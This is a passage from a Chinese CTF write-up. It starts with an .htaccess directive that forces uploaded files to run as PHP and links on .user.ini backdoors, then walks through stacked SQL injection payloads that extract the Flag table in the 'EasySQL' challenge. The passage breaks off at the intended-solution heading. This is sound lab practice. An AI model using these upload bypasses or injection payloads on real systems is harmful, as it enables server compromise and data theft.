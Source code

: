 ```
SetHandler application/x-httpd-php,把全部文件都指定为php文件执行。
```

**参考：**

`.user.ini绕过`

[.user.ini文件构成的PHP后门 - phith0n (wooyun.js.org)](https://wooyun.js.org/drops/user.ini文件构成的PHP后门.html)

`.htaccess绕过`

[[CTF\].htaccess的使用技巧总结_Y4tacker的博客-CSDN博客](https://blog.csdn.net/solitudi/article/details/116666720)

##  EasySQL

**考点**：堆叠注入

 先来fuzz一下

![image-20211016171506578](https://img-blog.csdnimg.cn/img_convert/9f8c24e09a3349873595e17f84d58b19.png)

看到`;`没有过滤，我们可以向强网杯一样，利用堆叠注入

先利用堆叠注入测试一波

```
1;show databases;
1;use ctf;show tables;
```

只能看到表名是`Flag`,然后也不知道咋做了，看wp

回显sql语句

```php
$sql = "select ".$post['query']."||flag from Flag";
```

`||`在sql语句中表示`或`，也就是说当输入1时，执行的sql语句为：

```php
select 1||flag from Flag ==select 1 from Flag
```

###  非预期解

直接来个骚的payload

```php
*,1;
select *,1||flag from Flag  ==select *,1 from Flag
```

相当于执行`select * from Flag`,就可以得到flag

###  预期解
